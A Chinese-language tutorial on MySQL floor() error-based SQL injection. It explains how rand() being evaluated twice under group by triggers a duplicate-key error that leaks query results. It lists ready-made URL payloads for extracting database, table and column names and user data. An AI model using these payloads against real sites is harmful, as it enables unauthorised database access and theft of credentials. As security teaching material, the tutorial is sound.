 # SQL注入之floor报错原理

floor()报错注入的原因是group by在向临时表插入数据时，由于rand()多次计算导致插入临时表时主键重复，从而报错，又因为报错前concant()中的SQL语句或者函数被执行，所以改语句报错而且被抛出的主键是SQL语句或数执行后的结果。

```
爆出当前数据库

?id=1' and (select 1 from (select concat((select database()),floor(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

爆出所有的数据库 通过limit来控制

?id=1' and (select 1 from (select concat((select schema_name from information_schema.schemata limit 4,1),ceil(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

爆出表名

?id=1' and (select 1 from (select concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),ceil(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

爆出字段

?id=1' and (select 1 from (select concat((select column_name from information_schema.columns where table_name='user' limit 0,1),ceil(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23

爆出数据

?id=1' and (select 1 from (select concat((select username from users),ceil(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23
```

### 报错需要满足的条件：

* floor()报错注入在MySQL版本8.0 已失效，经过测试7.3.4nts也已失效(据说的 本人没有实践过)
* 注入语句中查询用到的表内数据必须>=3条
* 需要用到的count(*)、floor()或者ceil()、rand()、group by

### **函数详解**

```
RAND() RAND(N) 
返回一个随机浮点值 v ，范围在 0 到1 之间 (即, 其范围为 0 ≤ v ≤ 1.0)。若已指定一个整数参数 N ，则它被用作种子值，用来产生重复序列。

rand(）       随机数函数
 
floor()         向下取整函数
 
count()        计数函数
 
group by     分组方法
```

### count和group by结合使用

```
mysql> select * from user;
+----+--------+--------+
| Id | uname  | pwd    |
+----+--------+--------+
|  1 | admin  | 123456 |
|  2 | admin1 | 123457 |
|  3 | admin2 | 123458 |
|  4 | admin3 | 12321  |
|  5 | admin  | 12345  |
+----+--------+--------+
5 rows in set (0.00 sec)

mysql> select count(*) from user group by uname;
+----------+
| count(*) |
+----------+
|        2 |
|        1 |
|        1 |
|        1 |
+----------+
4 rows in set (0.00 sec)
```

mysql遇到该语句时会建立一个虚拟表(实际上就是会建立虚拟表)，那整个工作流程就会如下图所示：

先建立虚拟表，key是主键，不可重复

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/4348/1675425162053/53a3d9f1d71741feb3c74ce9dc2c212d.png)

依次对分组字段数据到key中查询，如果key中没有相同数据，就进行添加，cout为1

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/4348/1675425162053/17571147ae6d4f8ea6a7de769843b368.png)

如果在key中查询遇到相同的数据，则不会进行数据的插入，会对count加1操作！

### group by floor(rand(0)*2)报错原理

实际上是因为floor(rand(0)*2)计算是有固定规律的 效果如下是 **0110110011** ......的顺序  **记住这个顺序对理解比较重要**

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/4348/1675425162053/883d0db76cd045ad957109df4492d4de.png)

其实mysql官方有给过提示，就是查询的时候如果**使用rand()的话，该值会被计算多次**。

那这个“被计算多次”到底是什么意思？**就是在使用group by的时候，floor(rand(0)*2)会被执行一次，如果虚表不存在记录，插入虚表的时候会再被执行一次。**

我们来看下floor(rand(0)*2)报错的过程就知道了，从上面可以看到在一次多记录的查询过程中floor(rand(0)*2)的值是定性的，为011011…(记住这个顺序很重要)，报错实际上就是floor(rand(0)*2)被计算多次导致的。

具体看看select count(*) from student group by floor(rand(0)*2);的查询过程

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/4348/1675425162053/567f31d4fc5a463a9bf060f9f0e4f935.png)

### 构造报错语句

```
?id=1' and (select 1 from (select concat((select database()),floor(rand(0)*2))x,count(*) from information_schema.tables group by x)c)%23
```
